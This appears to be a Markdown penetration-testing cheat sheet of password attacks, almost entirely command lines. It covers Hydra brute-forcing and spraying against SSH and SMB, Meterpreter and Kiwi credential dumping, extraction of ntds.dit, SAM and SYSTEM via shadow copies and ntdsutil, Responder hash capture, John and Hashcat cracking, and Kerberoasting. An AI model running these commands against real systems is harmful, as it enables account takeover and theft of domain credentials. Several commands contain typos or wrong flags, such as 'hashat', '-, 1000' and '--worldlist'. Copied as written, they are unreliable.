 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh
```
#### Single User, Multiple Passwords, Targeting SSH on port 2222
```bash
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
#### Multiple Users, Single Passwords, Targeting SMB on default port
```bash
hydra -L users.txt -p password1 dc.target.local smb2
```
#### Single User, Single Password, Targeting Multiple Tagets Across the Network
```bash
hydra -l bberner -p P@ssword1! -M windows-hosts.txt smb2
```
#### Previously Compromised Users Accross the network
```bash
hydra -C creds.txt -M windows-hosts.txt smb2
```
#### Guessing Domain user passwords using hte domain controller
```bash
hydra -C creds.txt dc01.hitbox.com smb2 -m workgroup:{hitbox}
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Hashdump
```bash
run post/windows/gather/hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```
### ntds.dit
#### VSSOwn
```cmd
cscript vssown.vbs /status
cscript vssown.vbs /start
cscript vssown.vbs /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak
cscript vssown.cbs /stop
```
```cmd
reg save hklm\system /y
```
#### Dump the passwords
```bash
secretsdump.py --ntds /location/ntds.dit -system /location/systembackup.bak -outputfile /tmp/hashes.txt
```
#### NTDSUtil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\mybackup
quit
quit
```
```cmd
ntdsutil "ac in ntds" "ifm" "cr gu C:\mybackup" q q
```

## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### pcredz
```bash
python3 ./pcredz -f /tmpwinauth.pcap
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```

## Kerberoasting
### Get SPNs
```bash
GetUserSPNs.py hitbox.com/<user>:<pass> -request -dc-ip 10.10.10.35 | tee /tmp/spnoutput.txt
grep krbtgt /tmp/spnoutput.txt > /tmp/tickets
hashcat -m 13100 -a 6 /tmp/tickets /opt/passwords/rockyou.txt ?d